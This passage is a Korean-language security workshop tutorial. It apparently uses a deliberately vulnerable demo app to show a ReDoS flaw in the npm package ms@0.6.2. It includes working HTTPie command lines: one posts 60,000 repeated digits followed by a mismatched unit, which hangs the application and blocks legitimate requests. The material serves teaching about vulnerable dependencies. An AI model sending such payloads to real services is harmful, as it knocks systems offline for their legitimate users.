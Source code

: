 # Example 3

세 번째 예제 취약점은 [`ms`](https://www.npmjs.com/package/ms) npm 패키지에 있습니다. 다양한 시간 형식을 밀리초로 쉽게 변환할 수 있는 모듈입니다. 여기서 문제는 우리가 `ms@0.6.2`를 사용하고 있고 여기에 [ReDos(Regular Expression Denial of Service)](https://snyk.io/test/npm/ms/0.6.2) 취약점이 있다는 것입니다.

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/vuln\_ms.png)

이 패키지를 통해 우리가 할 수 있는 것은 문자열 입력을 받아 애플리케이션이 미리 알림을 보내는 데 사용할 밀리초 단위로 구문 분석하는 것입니다. 예를 들어:

![](http://g.recordit.co/tgye3UMxmo.gif)

이 취약점을 시연하기 위해 터미널로 이동합니다. 애플리케이션에 대해 다음 명령을 실행해 보겠습니다:

```
echo 'content=Reboot server in 20 minutes' | http --form $GOOF_HOST/create -v
```

결과는 다음과 유사한 콘솔 출력입니다.

```
POST /create HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 36
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Host: elb.amazonaws.com
User-Agent: HTTPie/2.1.0

content=Reboot server in 20 minutes

HTTP/1.1 302 Found
Connection: keep-alive
Content-Length: 28
Content-Type: text/html; charset=utf-8
Date: Sat, 13 Jun 2020 21:20:16 GMT
ETag: W/"1c-41a86905"
Location: /
Vary: X-HTTP-Method-Override
X-Powered-By: Express

UmVib290IHNlcnZlciBbMjBtXQ==
```

해당 웹 결과는 다음과 같습니다:

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/goof\_ms\_01.png)

이제 이전 명령을 사용하여 숫자 5를 총 60,000번 인쇄합니다. 이 정규식은 입력을 처리하는 데 비선형적인 시간이 걸립니다. 입력이 길수록 처리 시간이 길어집니다. 다음 명령어를 실행해보자

```bash
echo 'content=Reboot server in '\`printf "%.0s5" {1..60000}\`' minutes' | http --form $GOOF_HOST/create -v
```

결과는 놀라울 정도로 빨랐습니다. 그러나 정규식이 일치하지 않으면 어떻게 됩니까? 이를 설명하기 위해 동일한 명령을 사용하고 몇 분 안에 s를 a로 교체해 보겠습니다. 다음 명령을 입력합니다.

```bash
echo 'content=Reboot server in '\`printf "%.0s5" {1..60000}\`' minutea' | http --form $GOOF_HOST/create -v
```

이 명령은 처리하는 데 시간이 걸리며 애플리케이션이 응답하지 않습니다. 작업을 추가하거나 제거하려고 하면 응용 프로그램이 응답하지 않으며 합법적인 요청이 처리되지 않도록 차단됩니다.

